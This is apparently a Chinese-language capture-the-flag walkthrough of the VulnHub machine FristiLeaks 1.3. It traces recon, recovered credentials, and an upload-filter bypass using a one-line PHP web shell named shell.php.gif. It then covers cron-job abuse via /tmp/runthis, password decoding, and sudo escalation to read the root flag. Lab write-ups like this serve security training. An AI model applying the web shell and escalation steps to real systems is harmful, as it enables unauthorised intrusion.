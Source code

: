 # FristiLeaks: 1.3

https://www.vulnhub.com/entry/fristileaks-13,133/

difficulty: Basic

Finish Date：2024-4-18

## IP

192.168.10.167

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-robots.txt: 3 disallowed entries
|_/cola /sisi /beer
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

只开放了一个 80 端口，访问主页后没什么重要信息，使用目录扫描看看有没有隐藏目录。

robots.txt 中发现 3 个隐藏目录：

```
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
```

这三个目录都是显示的同一张图片 /images/3037440.jpg ，对此图片查看是否有隐写信息，结果没找到。根据图片的文字提示，URL 不是这里，那应该还有隐藏的页面我们没有找到，继续寻找。看到 80 首页上的图片，提到了一个词：fristi，尝试访问这个目录，果然找到了网站隐藏的登录入口：http://192.168.10.167/fristi/

先进行下目录扫描，看看这个目录下，还有没与其他隐藏页面。发现了 http://192.168.10.167/fristi/uploads/ 但是我们没登陆，看不到页面内容。

看到登陆页面，联想到弱密码或者是 sql 注入。sqlmap 跑了一下，没有注入点。查看下页面的源代码是否能发现有用信息，找到如下信息：

```
<meta name="description" content="super leet password login-test page. We use base64 encoding for images so they are inline in the HTML. I read somewhere on the web, that thats a good way to do it.">
<!--
TODO:
We need to clean this up for production. I left some junk in here to make testing easier.

- by eezeepz
-->

<!--
iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLq
i1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2Fg
tOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws
30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl
3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HK
ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
U5ErkJggg==
-->
```

根据第一个提示，找到了一个潜在的用户名：eezeepz，有用的信息可能存在下面这个 base64 编码中，让我们解码看看有什么，发现是一张 png 图片，内容为：keKkeKKeKKeKkEkkEk，看上去像目录又像密码。使用用户凭证 eezeepz:keKkeKKeKKeKkEkkEk 尝试登陆系统，果然能登陆进去。然后看到是 upload file 功能，应该是让我们上传 php 后门，进而获得 web shell。

在我们先尝试上传了一个 php 文件后，得到了错误的提示：

```
Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded
```

先上传一个 gif 图片，找到了存放的目录 /uploads ，访问链接为 http://192.168.10.167/fristi/uploads/rev8888.gif。

继续尝试绕过，使用 bp 抓包，进行更改相关内容，看是否能绕过：

```
<?php system($_GET['cmd']);?>

filename="shell.php.gif"
```

结果访问：http://192.168.10.167/fristi/uploads/shell.php.gif?cmd=id 能够执行命令，目标系统存在解析漏洞。进而创建反弹命令，kali 上建立 nc 监听，获得到 webshell。

在/var/www 目录下，发现了一个 notes.txt，内容为：

```
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```

提示我们 eezeepz 的家目录中有重要信息，切换到 /home/eezeepz 看看有什么，同样有一个 notes.txt :

```
Yo EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.

- Jerry
```

提示到我们将要执行的命令写入到 /tmp/runthis 中，然后等待一分钟，就可以在 /tmp/cronresult 中看到结果。

在 /home 目录中能看到 admin 目录，但是没有权限，让我们先修改权限，进入 admin 目录看看有什么东西：

```
echo '/home/admin/chmod 777 /home/admin' > /tmp/runthis
```

1 分钟后计划任务执行，进入到 /home/admin 目录中，看到有一个提示文件 whoisyourgodnow.txt ：

```
localhost.localdomain:/home/admin $ cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG   <--
```

同时看到了一个加密文件 cryptpass.py ：

```
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

还有一个被加密的 pass cryptedpass.txt：

```
mVGZ3O3omkJLmy2pcuTq
```

看样子需要我们将上面的加密 pass，通过对算法分析进行逆操作获取明文密码，正向操作是：base64 -> 倒序 -> rot13 ，那么反向的解码就为：rot13 -> 倒序 -> base64。在 CyberChef 中可以轻松的实现逆向解密过程，最终得到了解出的原始信息：

```
mVGZ3O3omkJLmy2pcuTq  -->  thisisalsopw123
=RFn0AKnlMHMPIzpyuTI0ITG  --> LetThereBeFristi!
```

指示我们的 god 应该是用户 fristigod，使用得到的两个密码，尝试切换用户到 su fristigod，正确的密码为：LetThereBeFristi!

sudo -l 看到有用信息：

```
(fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

发现这个文件也是一个 suid 文件，可以执行命令，以 root 权限去调用。

## flag

根据上面提示需要我们用 fristi 用户去执行这个命令，执行命令如下：

```
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "ls /root"
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "ls /root"
fristileaks_secrets.txt

bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "cat /root/fristileaks_secrets.txt"
stileaks_secrets.txt"ristigod/.secret_admin_stuff/doCom "cat /root/fri
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```

可以用内核漏洞 dirtycow 40839.c 同样也可以进行提权到 root。

## 补充

找到为什么上传的文件中含有.php 就能被解析？

/etc/httpd/conf.d/php.conf

```
AddHandler php5-script .php
AddType text/html .php
```

只要文件后缀中有.php 就能被当作 php 去解析。
